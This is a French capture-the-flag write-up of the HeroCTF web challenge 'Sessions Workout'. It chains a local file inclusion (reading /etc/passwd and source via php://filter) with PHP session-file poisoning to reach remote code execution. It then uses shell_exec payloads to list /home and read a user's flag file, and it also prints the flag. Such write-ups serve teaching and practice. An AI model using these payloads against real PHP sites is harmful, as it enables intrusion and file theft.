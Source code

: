 # Sessions Workout

### Catégorie

Web

### Description

Des personnes malveillantes menacent d'exposer la vie de célébrités au grand public.. il faut absolument empêcher ça !!<br>
Vous avez pour but de récupérer un fichier contenu dans le home de l'utilisateur.

http://challs.heroctf.fr:3005/

Format : Hero{flag}

### Auteur

Worty

### Note aux lecteurs

Github ne permet pas d'afficher du code PHP tel quel. Quand il y a une payload il faut évidemment mettre au début "<?php" et à la fin "?>" pour que celle-ci fonctionne.
Ces balises ne seront donc pas présentes dans ce writeup mais doivent être présentes quand vous faites le challenge.

### Solution

Quand on arrive sur la page index.php, rien n'est apparant. Quand on commence à se balader sur le site, on remarque que les fichiers php sont accédés via un paramètre "page".

Ce paramètre est donc contrôlé par l'utilisateur, et donc potentiellement faillé. On essaye de passer un payload de type LFI "../../../../../etc/passwd". BOOM on récupère le fichier demandé, il y a donc une faille de type LFI.

Pour savoir ce qu'on peut en faire, on peut aller voir : https://github.com/swisskyrepo/PayloadsAllTheThings.

On sait que l'on doit aller lire un fichier dans le home de l'utilisateur, hors, on ne connait pas du tout le nom de son home. Nous allons donc devoir passer par un faille de type RCE (Remote Code Execution).

Avec la LFI, on récupère le contenu du fichier index.php : http://challs.heroctf.fr:3005/index.php?page=php://filter/convert.base64-encode/resource=index.php

Dans ce fichier, on remarque plusieurs choses :<br/>
    - session_save_path('./OhD4Sessions'); : les sessions sont stockés dans un dossier qui est accessible par l'utilisateur.<br/>
    - $_SESSION['page'] = $_REQUEST['page']; : ce qui est passé dans le paramètre page est stocké dans la session.<br/>

Nous allons donc utiliser cette option pour passer notre code PHP et arriver à notre but !

Payload : http://challs.heroctf.fr:3005/index.php?page=phpinfo();, ici, le serveur nous répond que le fichier n'existe pas, forcément, puisque c'est du code PHP.
On va donc maintenant accéder à notre session AVEC le paramètre page car on veut que notre code PHP soit exécuté.

Payload :  http://challs.heroctf.fr:3005/index.php?page=./OhD4Sessions/sess_ID
BOOM ! Notre code php est exécuté, nous avons donc notre RCE.

Nous allons donc maintenant devoir lister le contenu du dossier /home, pour connaître le nom de l'utilisateur :
Payload : http://challs.heroctf.fr:3005/index.php?page=var_dump(shell_exec("ls /home"));
On réaccède à notre session grâce à la LFI, et on remarque dans le dossier home l'utilisateur haxorhome.

Nous allons donc maintenant récupérer le nom du fichier à récupérer :
Payload : http://challs.heroctf.fr:3005/index.php?page=var_dump(shell_exec("ls /home/haxorhome"));
On réaccède à notre session grâce à la LFI, on remarque que le fichier se nomme flag.txt.

Payload final : http://challs.heroctf.fr:3005/index.php?page=var_dump(shell_exec("cat /home/haxorhome/flag.txt")); , et on réaccède à notre session grâce à la LFI, flag !

### Flag

Hero{p4y_4tt3nt10n_t0_s3ss1on_n3xt_t1m3_!!}